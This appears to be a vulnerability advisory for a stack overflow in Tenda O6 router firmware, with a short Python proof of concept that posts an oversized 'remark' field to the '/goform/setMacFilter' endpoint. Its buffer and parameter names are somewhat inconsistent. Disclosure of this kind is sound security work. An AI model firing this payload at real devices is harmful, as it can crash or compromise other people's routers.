 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The  O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromMacFilterSet` function. Specifically, the variables `v69` and `v70` are assigned the values of the `status` and `remark` parameters from a POST request. Since these parameters are user-controlled, their values can be manipulated to exceed the allocated size of the `v38` array. This is due to the use of the `sprintf` function, which does not perform bounds checking on the input. As a result, a buffer overflow occurs if the combined length of `status` and `remark` surpasses the storage capacity of `v75`, leading to a potential security exploit.

![[Pasted image 20240805165019.png]]


![[Pasted image 20240805165134.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/setMacFilter"
payload = b"ab"*3000

data = {"mode": "3", "remark": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[Pasted image 20240805163853.png]]
